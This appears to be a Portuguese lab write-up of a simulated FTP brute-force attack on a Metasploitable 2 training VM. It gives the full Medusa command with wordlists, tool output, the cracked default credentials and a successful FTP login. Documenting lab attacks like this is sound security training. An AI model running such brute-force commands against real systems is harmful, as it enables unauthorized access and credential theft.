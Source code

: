 # Resultados dos Ataques Simulados

Este documento apresenta os resultados práticos obtidos durante a execução dos ataques de força bruta simulados no ambiente de laboratório controlado.

---

## 1. Ataque de Força Bruta em FTP

### Configuração do Teste

- **Alvo**: Metasploitable 2 (192.168.56.102)
- **Serviço**: FTP (porta 21)
- **Ferramenta**: Medusa v2.3
- **Wordlist de Usuários**: 10 usuários
- **Wordlist de Senhas**: 31 senhas
- **Threads**: 4
- **Data do Teste**: 21/10/2025

### Comando Executado

```bash
medusa -h 192.168.56.102 -U wordlists/users.txt -P wordlists/passwords.txt -M ftp -t 4 -v 6 -f
```

### Resultados Obtidos

**✅ CREDENCIAIS DESCOBERTAS:**

| Usuário | Senha | Tempo | Tentativas |
|---------|-------|-------|------------|
| **msfadmin** | **msfadmin** | ~15 segundos | 267 tentativas |
| **ftp** | **ftp** | ~18 segundos | 298 tentativas |

### Output do Medusa (Resumido)

```
ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (1 of 10, 0 complete) Password: 123456 (1 of 31 complete)
ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (1 of 10, 0 complete) Password: password (2 of 31 complete)
...
ACCOUNT FOUND: [ftp] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS]
```

### Validação de Acesso

Após descobrir as credenciais, o acesso foi validado:

```bash
$ ftp 192.168.56.102
Connected to 192.168.56.102.
220 (vsFTPd 2.3.4)
Name (192.168.56.102:kali): msfadmin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1000     1000         4096 Mar 17  2010 vulnerable
226 Directory send OK.
```